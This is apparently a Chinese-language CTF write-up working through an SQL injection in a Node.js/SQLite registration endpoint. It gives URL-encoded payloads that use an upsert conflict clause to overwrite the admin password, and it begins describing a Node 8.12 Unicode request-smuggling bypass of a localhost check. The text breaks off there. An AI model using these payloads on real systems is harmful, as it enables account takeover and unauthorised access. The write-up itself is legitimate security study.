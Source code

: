 (在没有源码的基础上,其实首先是要测试原始sql数据库类型,以及语句的闭合方式/参数个数,这里的闭合方式为`');--` )

这里不能用ADN和OR,因为这两个运算符都用于: 结合一个 SQL 语句的 WHERE 子句中的多个条件。

一开始我对payload的猜想是这样的:

```jsx
username=abc4&password=1234');+UPDATE+users+SET+password='1234'+WHERE+username='admin';--
```

拼接起来,在nodejs的register函数下,query对应的值便是:

`INSERT INTO users (username, password) VALUES ('abc', '1234'); UPDATE users SET password='1234' WHERE username='admin';--')`

但是在下文的”验证:”一节中,却发现该payload无法使用.初步实验后,发现nodejs此处调用的query只执行第一句sql(”;”前的),本以为这样行的通,没想到这里的payload要重新构造,然后对”insert into”语句如何忽略unique约束进行了查询,sqlite官方有描述:[https://sqlite.org/lang_conflict.html](https://sqlite.org/lang_conflict.html)

用法描述见:[https://www.sqlite.org/lang_UPSERT.html](https://www.sqlite.org/lang_UPSERT.html)

根据文档描述,在本地建了一个sqlite数据库进行测试,以下语句最终可以测试通过:

```python
insert into users(username,password) values('admin','admin') on conflict(username) do update set password = '1234' where username='admin'
```

所以payload就是:

```python
username=admin&password=1234')%20on%20conflict(username)%20do%20update%20set%20password%20%3d%20'1234'%20where%20username%3d'admin';--
```

## 漏洞利用

好耶,要用到nodejs的漏洞!其实我卡这里了,看了别人的文章才知道....qwq虽然文中提到先知社区的文章很好,但是我打算先靠自己的力量:搜索找到对应的nodejs v8的相关安全文章(得训练自己这方面的能力)

在上一步的sql注入测试中,为了只针对sql,所以对如下代码加了注释.在这一步中,要通过nodejs的漏洞来绕过该判断

```jsx

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}
```

### 查找漏洞相关内容

看Dockerfile发现node的版本是node:8.12.0-alpine,

nodejs的更新日记:[https://github.com/nodejs/node/blob/master/doc/changelogs/CHANGELOG_V8.md#8.12.0](https://github.com/nodejs/node/blob/master/doc/changelogs/CHANGELOG_V8.md#8.12.0)

在issues下以sucurity和semver-major的标签也能够找到:[https://github.com/nodejs/node/pull/16237](https://github.com/nodejs/node/pull/16237) 可以看得到利用这个安全问题可以实现请求走私,在issues下还引用了一篇经典的orange的SSRF的报告(如图) 是关于在SSRF中实现走私,ppt在nodejs相关的页数中写到,像U+FF2E即**全宽**拉丁大写字母”Ｎ”的unicode编码,在进行http协议的url处理时,不能完整地处理它的编码,导致ＮＮ/被转义为`../`   
